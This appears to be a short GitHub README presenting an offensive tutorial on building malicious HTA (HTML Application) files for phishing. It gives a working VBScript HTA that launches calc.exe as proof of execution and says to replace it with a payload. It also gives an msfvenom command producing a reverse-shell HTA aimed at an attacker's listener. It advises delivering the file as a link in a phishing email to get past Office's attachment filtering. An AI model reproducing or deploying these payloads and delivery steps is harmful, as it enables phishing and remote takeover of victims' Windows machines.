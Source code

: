 # Malicious-HTA-File

An HTA is a proprietary Windows program whose source code consists of HTML and one or more scripting languages supported by Internet Explorer (VBScript and JScript). An HTA is executed using mshta.exe, which is typically installed along with IE. In fact, mshta is dependant on IE, so if it has been uninstalled, HTAs will be unable to execute.We can create a malicious hta file and use it on phishing.


# Demonstration

## Creating a malicious hta file to execute calc.exe

open Visual Studio Code on the attacker-windows VM and create a new file.
```markdown
<html>
  <head>
    <title>Hello World</title>
  </head>
  <body>
    <h2>Hello World</h2>
    <p>This is an HTA...</p>
  </body>

  <script language="VBScript">
    Function Pwn()
      Set shell = CreateObject("wscript.Shell")
      shell.run "calc"
    End Function

    Pwn
  </script>
</html>
```

save the file and browse to this file in explorer and double-click it to run.If calculater pops up it means code get executed.We can now replace the calc to payload to get shell of target machine.

### ALTERNATE
### Using msfvenom

```markdown
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.x.x LPORT=4444 -f hta-psh -o shell.hta
```

NOTE: During phishing we will host our hta file and use link in a phishing mail http://x.x.x.x/demo.hta . If you send hta file directly as an attachment, by default, Office has filetype filtering in place that will prevent you from attaching certain files to emails (including HTAs, which is why we'd opt to sending a link instead). 

![OnPaste 20220610-183906](https://user-images.githubusercontent.com/106917304/173071374-fb6dc04c-82ae-44d8-b101-ab7de8c19070.png)


